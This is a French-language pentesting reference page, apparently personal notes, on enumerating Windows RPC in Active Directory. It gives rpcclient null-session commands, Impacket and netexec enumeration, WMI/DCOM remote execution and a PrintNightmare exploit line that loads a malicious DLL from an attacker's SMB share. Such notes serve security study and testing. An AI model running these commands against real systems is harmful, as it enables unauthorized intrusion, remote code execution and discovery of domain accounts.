

Ce document détaille les méthodes d'énumération du service **RPC** (Remote Procedure Call) dans les environnements Windows et Active Directory.



## Identification du service

Le service **RPC** utilise le port 135 (TCP) comme portmapper. L'énumération repose sur l'interaction avec les interfaces **SAMR** (Security Account Manager Remote) et **LSA** (Local Security Authority).

```bash
nmap -sS -sV -p 135,139,445 --script=msrpc-enum <IP>
rpcinfo -p <IP>
```

> [!danger] Risque de détection
> L'énumération intensive peut déclencher des alertes EDR/SIEM sur les logs d'accès aux services.

> [!warning] Ports dynamiques
> Les ports dynamiques (49152+) sont souvent bloqués par les pare-feux, limitant l'énumération complète.

## Utilisation de rpcclient

**rpcclient** est l'outil natif pour interagir avec les interfaces **RPC** distantes. Il est étroitement lié aux techniques d'énumération **SMB Enumeration**.

### Connexion

```bash
# Connexion anonyme (null session)
rpcclient -U "" -N <IP>

# Connexion authentifiée
rpcclient -U "user" <IP>
```

> [!info] Condition critique
> La session nulle (null session) dépend de la configuration **RestrictAnonymous** sur la cible.

### Commandes rpcclient

| Commande | Description |
| :--- | :--- |
| `enumdomusers` | Liste des utilisateurs du domaine |
| `enumdomgroups` | Liste les groupes du domaine |
| `queryuser <RID>` | Détails sur un utilisateur (à partir de RID) |
| `querygroup <RID>` | Détails sur un groupe |
| `lookupnames <nom>` | Cherche le SID d'un utilisateur |
| `lookupsids <SID>` | Cherche le nom à partir du SID |
| `getdompwinfo` | Infos sur les règles de mot de passe |
| `getusername` | Renvoie le nom de l’utilisateur connecté |
| `netshareenum` | Enumère les partages réseau |
| `netshareenumall` | Tous les partages (inclut les cachés) |
| `srvinfo` | Infos sur la machine (OS, domaine, etc.) |

> [!tip]
> Toujours vérifier les politiques de mot de passe (**getdompwinfo**) avant de tenter une attaque par force brute.

## Utilisation d'Impacket (rpcdump, samrdump)

La suite **Impacket** est indispensable pour interagir avec les interfaces **RPC** de manière plus granulaire. Voir **Impacket Suite Usage**.

```bash
# Lister les interfaces RPC exposées
rpcdump.py @<IP>

# Énumérer les utilisateurs et groupes via SAMR
samrdump.py <DOMAINE>/<USER>:<PASSWORD>@<IP>
```

## DCOM/WMI interaction via RPC

Le protocole **DCOM** (Distributed Component Object Model) s'appuie sur **RPC** pour permettre l'exécution de code à distance via **WMI**.

```bash
# Exécution de commande via WMI (nécessite des crédits valides)
wmiexec.py <DOMAINE>/<USER>:<PASSWORD>@<IP> "whoami"

# Interaction DCOM via dcomexec
dcomexec.py <DOMAINE>/<USER>:<PASSWORD>@<IP> -object MMC20.Application
```

## Utilisation de enum4linux

**enum4linux** automatise l'extraction d'informations via **RPC** et **SMB**.

```bash
enum4linux -a <IP>
```

## Utilisation de netexec

**netexec** (successeur de **CrackMapExec**) permet d'interroger les services **RPC** et **SMB** de manière automatisée.

```bash
nmap -p- <IP>
netexec smb <IP> -u "" -p "" --shares
netexec smb <IP> -u "user" -p "password" --users
```

## Exploitation des vulnérabilités RPC (ex: PrintNightmare)

Certaines vulnérabilités exploitent des interfaces **RPC** mal sécurisées, comme le service **Spooler** (PrintNightmare - CVE-2021-1675/34527).

```bash
# Vérification de vulnérabilité avec Impacket
rpcdump.py @<IP> | grep -E 'MS-RPRN|MS-PAR'

# Exploitation (exemple conceptuel)
python3 CVE-2021-1675.py <DOMAINE>/<USER>:<PASSWORD>@<IP> '\\<IP_ATTAQUANT>\share\malicious.dll'
```

## Techniques de contournement (Firewall/ACL)

Lorsque le port 135 est filtré, il est parfois possible d'accéder aux services **RPC** via **SMB** (port 445) en utilisant des techniques de **SMB Pipe** (Named Pipes).

*   **SMB Tunneling** : Utiliser `proxychains` avec `rpcclient` si le port 135 est accessible via un pivot.
*   **RPC over SMB** : La plupart des outils **Impacket** encapsulent nativement les appels **RPC** dans le protocole **SMB**, contournant ainsi les restrictions sur le port 135 si le port 445 est ouvert.

## Ports d'écoute RPC

Le service **RPC** utilise le port 135 pour la négociation initiale, puis bascule sur des ports dynamiques pour les appels de procédures spécifiques.

*   TCP/135 : Port principal (portmapper)
*   Ports dynamiques 49152–65535 : Utilisés après authentification **RPC**

## Liens entre protocoles

L'énumération **RPC** est fondamentale pour comprendre l'architecture **Active Directory Enumeration**.

| Protocole | Rôle |
| :--- | :--- |
| **SMB** | Utilisé conjointement pour le transport et les partages |
| **WMI** | Interaction via **DCOM/RPC** |
| **LSA** | Interface **RPC** pour extraire des informations sensibles |
| **SAMR** | Interface **RPC** pour énumérer utilisateurs, groupes et politiques |

> [!note]
> Pour des techniques avancées, se référer à la documentation sur **Impacket Suite Usage** et le **Windows Post-Exploitation**.